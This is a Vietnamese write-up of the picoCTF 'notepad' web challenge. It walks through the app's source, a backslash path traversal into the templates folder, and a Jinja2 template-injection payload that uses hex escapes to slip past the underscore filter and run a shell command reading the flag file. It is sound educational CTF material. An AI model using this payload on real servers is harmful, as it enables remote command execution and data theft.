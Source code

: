 # nodepad
Trang web:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image397.png?raw=true)

Nội dung code đính kèm:

**Docker file**

    FROM python:3.9.2-slim-buster

    RUN pip install flask gunicorn --no-cache-dir

    WORKDIR /app
    COPY app.py flag.txt ./
    COPY templates templates
    RUN mkdir /app/static && \
        chmod -R 775 . && \
        chmod 1773 static templates/errors && \
        mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt

    CMD ["gunicorn", "-w16", "-t5", "--graceful-timeout", "0", "-unobody", "-gnogroup", "-b0.0.0.0", "app:app"]

**app.py**

    from werkzeug.urls import url_fix
    from secrets import token_urlsafe
    from flask import Flask, request, render_template, redirect, url_for

    app = Flask(__name__)

    @app.route("/")
    def index():
        return render_template("index.html", error=request.args.get("error"))

    @app.route("/new", methods=["POST"])
    def create():
        content = request.form.get("content", "")
        if "_" in content or "/" in content:
            return redirect(url_for("index", error="bad_content"))
        if len(content) > 512:
            return redirect(url_for("index", error="long_content", len=len(content)))
        name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
        with open(name, "w") as f:
            f.write(content)
        return redirect(name)

**/templates/index.html**

    <!doctype html>
    {% if error is not none %}
    <h3>
        error: {{ error }}
    </h3>
    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form action="/new" method="POST">
    <textarea name="content"></textarea>
    <input type="submit">
    </form>

**/templates/error/bad_content.html**

    the note contained invalid characters

**/templates/error/long_content.html**

    your note (length {{ request.args.get("len") }}) was larger than the maximum (512)


Như vậy có thể thấy:
- Website được built với `Flask`
- Dựa vào dockerfile: `mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt`, file chứa flag sẽ có format là `flag-uuid.txt`, trong đó uuid là random. 
- Từ file `app.py`, tìm ra được 2 endpoint là `/` và `/new`, cho phép tạo một note mới, tôi sẽ không thể sử dụng các ký tự `_` và `/` trong nội dung của note, nếu không, sẽ gặp lỗi `bad_content`. Ngoài ra, nội dung không được vượt quá `512 ký tự`. Nếu không có gì vi phạm, note sẽ được tạo trong thư mục `static` với tên file bao gồm `128 ký tự đầu tiên` của nội dung note, theo sau là `-` với `8 ký tự ngẫu nhiên`, extension sẽ là `.html`. Về hàm [url_fix()](https://tedboy.github.io/flask/_modules/werkzeug/urls.html#url_fix). Tôi thấy rằng hàm này được sử dụng để chuẩn hóa links, trong hàm có dòng sau:

        s = to_unicode(s, charset, 'replace').replace('\\', '/')

Ký tự `\` được thay thế bằng `/` => Nếu điều không chặn sử dụng `\` thay vì `/`, tôi có thể bypass. Vì có một chuyển hướng trực tiếp dựa trên biến `name`, đại diện cho tên file của note đã tạo, tồn tại lỗ hổng `Path Traversal`. Điều này là do tôi có thể kiểm soát `128 ký tự đầu tiên` của tên file, vì chúng được lấy trực tiếp từ nội dung của note.

Lỗi bad_content:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image398.png?raw=true)

=> Tham số `?error=bad_content` được truyền tương ứng với tên của lỗi và file bên trong thư mục `errors/` có tên `bad_content` được đưa vào trang. Lợi dụng `Path Traversal`, tôi có thể tạo một template bên trong thư mục `templates/errors` và bằng cách truyền tham số `?error=created_template_name`, tôi cũng có thể có thể khai thác lỗ hổng `SSTI`. 

Tôi thử nhập nội dung note là `{{7*7}}`:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image399.png?raw=true)

Click Submit:

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image400.png?raw=true)

=> Tại sao lại `lỗi 404`? Việc duyệt đường dẫn đã hoạt động, có thể thấy từ URL file được tạo trong thư mục `/templates/errors/name_file.html`, tuy nhiên, tôi để ý rằng tên file `{{7*7}}-inEdFUFX3SI.html` chưa đáp ứng đủ điều kiện để bypass, tên file sẽ bao gồm `128 ký tự đầu tiên` từ nội dung note đã tạo, vì `{},*` là các ký tự đặc biệt, file được tạo trên máy chủ web, nhưng không thể truy cập nó vì máy chủ web không diễn giải tên file một cách chính xác. Tôi có thể bỏ qua vấn đề này bằng cách `chèn 128 ký tự được phép`, ví dụ `128` kí tự `A`, theo sau là `{{ 7*7 }}` (các ký tự bị máy chủ web hiểu sai):

    ..\templates\errors\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA{{ 7*7 }}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image401.png?raw=true)

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image402.png?raw=true)

Thành công tạo note, bây giờ tôi sẽ lấy ra tên file: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-6Ftd9Qn-cCw.html`, tách phần extension `.html` ra vì tham số `?error` trên URL ra vì nó chỉ nhận tên file:, truy cập `https://notepad.mars.picoctf.net/?error=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-6Ftd9Qn-cCw`

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image403.png?raw=true)

=> Thành công. Payload cuối cùng:

    ..\templates\errors\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo; cat flag*')|attr('read')() }}

![img](https://github.com/DucThinh47/PicoCTF_Writeups/blob/main/Web_Exploitation/images/image404.png?raw=true)

